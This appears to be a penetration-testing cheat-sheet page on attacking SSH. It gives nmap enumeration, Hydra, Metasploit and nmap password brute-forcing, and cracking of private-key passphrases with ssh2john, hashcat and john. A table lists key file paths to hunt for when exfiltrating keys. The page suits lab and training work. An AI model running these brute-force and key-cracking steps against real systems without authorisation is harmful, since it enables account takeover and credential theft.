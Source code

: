 # SSH (22)

## Inline Command Execution

```bash
ssh user1@10.10.10.10 -p 2222 'ls /home/user1/'
```

## Enumeration

Supported authentication methods.

```bash
nmap -p22 -script=ssh-auth-methods <IP>
```

## Audit

{% code overflow="wrap" %}
```bash
$ ssh-audit 192.168.0.24
# general
(gen) banner: SSH-1.99-OpenSSH_2.9p2
(gen) protocol SSH1 enabled
(gen) software: OpenSSH 2.9p2
(gen) compatibility: OpenSSH 2.5.0-6.6, Dropbear SSH 0.47-0.52
(gen) compression: enabled (zlib)

<SNIP>
```
{% endcode %}

## Brute Force

{% tabs %}
{% tab title="Hydra" %}
{% code overflow="wrap" %}
```bash
hydra -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt ssh://192.168.0.24:22 -t 4
```
{% endcode %}
{% endtab %}

{% tab title="Metasploit" %}
```bash
$ msfconsole -q
msf6 > use auxiliary/scanner/ssh/ssh_login
msf6 auxiliary(scanner/ssh/ssh_login) > set PASS_FILE /usr/share/wordlists/metasploit/unix_passwords.txt
PASS_FILE => /usr/share/wordlists/metasploit/unix_passwords.txt
msf6 auxiliary(scanner/ssh/ssh_login) > set USERNAME root
USERNAME => root
msf6 auxiliary(scanner/ssh/ssh_login) > set USER_AS_PASS true
USER_AS_PASS => true
msf6 auxiliary(scanner/ssh/ssh_login) > set RHOSTS 192.168.57.134
RHOSTS => 192.168.57.134
```
{% endtab %}

{% tab title="Nmap" %}
```bash
nmap -p 22 --script ssh-brute potato
```
{% endtab %}
{% endtabs %}

## PPK to PEM

Convert a Putty user key file (`.ppk`) to an SSH `.pem` file.

```bash
# Converting PPK to PEM
sudo puttygen key.ppk -O private-openssh -o key.pem
# Assigning the appropriate permissions
sudo chmod 600 key.pem
# Confirming permissions
ls -l key.pem
# Using public key authentication
ssh root@10.10.11.227 -i key.pem
```

For an example of the above process check [Keeper](../../boxes/easy/keeper.md#keepass-exploitation).

## Private Keys

{% tabs %}
{% tab title="1. Convertion" %}
{% code overflow="wrap" %}
```bash
# converting the private key into a hashcat-friendly format
$ ssh2john id_rsa > ssh.hash
```
{% endcode %}
{% endtab %}

{% tab title="2. Formatting" %}
{% code overflow="wrap" %}
```bash
$ cat ssh.hash
id_rsa:$sshng$6$16$7059e78a8d3764ea1e883fcdf592feb7$1894$6f70656e737<SNIP>

# removing the 'id_rsa' username
$ nano ssh.hash
$ cat ssh.hash
$sshng$6$16$7059e78a8d3764ea1e883fcdf592feb7$1894$6f70656e737<SNIP>
```
{% endcode %}
{% endtab %}

{% tab title="3. Cracking" %}
{% code overflow="wrap" %}
```bash
$ hashcat -h | grep -i "ssh" 
<SNIP>
22921 | RSA/DSA/EC/OpenSSH Private Keys ($6$) | Private Key

# might not work
$ hashcat -m 22921 ssh.hash ssh.passwords
# this will probably work
$ john --wordlist=ssh.passwords ssh.hash
```
{% endcode %}
{% endtab %}
{% endtabs %}

### Key Types

SSH supports **multiple key types**, each with a default filename, thus, when trying to exfiltrate one don't just search for `id_rsa`!

| Key Type  | Private Key File    | Public Key File         |
| --------- | ------------------- | ----------------------- |
| RSA       | `~/.ssh/id_rsa`     | `~/.ssh/id_rsa.pub`     |
| ECDSA     | `~/.ssh/id_ecdsa`   | `~/.ssh/id_ecdsa.pub`   |
| ED25519   | `~/.ssh/id_ed25519` | `~/.ssh/id_ed25519.pub` |
| DSA (old) | `~/.ssh/id_dsa`     | `~/.ssh/id_dsa.pub`     |

* **ECDSA** and **ED25519** are newer and generally faster/smaller than RSA.
* **ED25519** is currently the recommended default for many systems (`ssh-keygen` defaults to it now).
* **RSA** is still widely supported, but **4096-bit keys** are preferred now due to security standards.

